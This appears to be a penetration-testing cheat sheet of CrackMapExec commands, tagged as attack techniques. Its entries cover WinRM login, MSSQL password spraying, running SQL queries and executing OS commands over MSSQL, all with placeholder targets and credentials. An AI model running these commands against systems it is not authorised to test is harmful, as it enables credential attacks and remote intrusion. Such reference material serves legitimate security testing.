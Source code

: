## cme - winrm-auth
#plateform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
cme winrm <ip> -u <user> -p <password>
```

## cme - mssql password spray
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
cme mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## cme - mssql execute query
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## cme - mssql execute command
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24
